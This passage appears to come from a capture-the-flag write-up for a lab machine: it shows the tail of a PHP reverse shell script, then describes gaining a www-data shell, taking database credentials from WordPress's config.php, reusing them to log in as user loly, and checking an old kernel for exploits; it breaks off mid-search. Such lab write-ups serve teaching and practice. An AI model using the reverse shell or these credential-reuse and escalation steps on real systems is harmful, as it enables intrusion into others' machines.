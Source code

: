 ```php
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

![](https://i.imgur.com/yDBR11s.png)

This gives us a reverse shell as www-data

<img src="https://i.imgur.com/gY9Plxw.png"/>

##### Privilege Escalation
After stabilizing our shell we can start enumerating the machine for escalating our privileges to a user and for that we can find config.php from /var/www/html/wordpress which has the credentials to mysql database

![](https://i.imgur.com/PSv7BPQ.png)

We can try re using this password for loly user on the machine which works 

![](https://i.imgur.com/lNGMTDL.png)

##### Gaining Root Access

Through sudo -l I tried to see if there's any binary which this user can run with root privileges but it seems that this user isn't in sudoers group

![](https://i.imgur.com/6qZjFwU.png)

hecking the kernel version with uname -avr it's running a very old kernel version 4.4.0-31 which may be vulnerable

<img src="https://i.imgur.com/vXhkaDw.png"/>

Searching for an exploit on exploit-db 
